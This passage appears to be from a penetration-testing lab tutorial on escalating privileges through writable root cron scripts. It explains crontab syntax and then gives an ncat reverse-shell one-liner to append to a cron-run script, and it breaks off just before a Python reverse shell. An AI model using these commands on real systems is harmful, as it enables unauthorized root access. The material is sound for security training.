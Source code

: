 >[!hint]
>
> Thus, let us include the *crontab* options that we can use for our entries : 
> 
> |   |   |
|---|---|
|*|any value|
|,|value list separator|
|-|range of values|
|/|step values|



We type out our time interval from the last slide, followed by our command. Note we have to specify the full paths to the script and any executables.

Setup

>[!hint]
>Lastly, we will use the following command so that everyone on the machine can see the syslog : 
>
>		sudo chmod 644 /var/log/syslog



Exploitation

Now we are ready to exploit this setting. Wait a couple minutes for cron to run a couple times. Afterwards, go to your reverse shell on Kali. We can use “grep CRON /var/log/syslog” to see that Cron has run as root. This command reads the syslog, looking only for mentions of the work “CRON”.

Exploitation

We can also see that we can write to these files as www-data.

Exploitation

Let’s target the bash script first. We can make a bash shell or a reverse shell because ncat can be run in the bash (default) Linux shell. If we run the following command, we will append bash_script.sh. At the same time, set up a nc listener on your Kali machine.

bashCopy code

`echo ‘ncat <kali_ip> <port> -e /bin/bash’ >> /var/scripts/bash_script.sh`

Exploitation

After a minute the cron job will run and we will have a shell as root.

Exploitation


If we want to exploit the python script, we will have to get a python reverse shell. A good source of reverse shells comes from [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python). Our python shell looks like this, where `<kali_ip>` and `<port>` will be replaced by our Kali’s IP and port we are listening on:
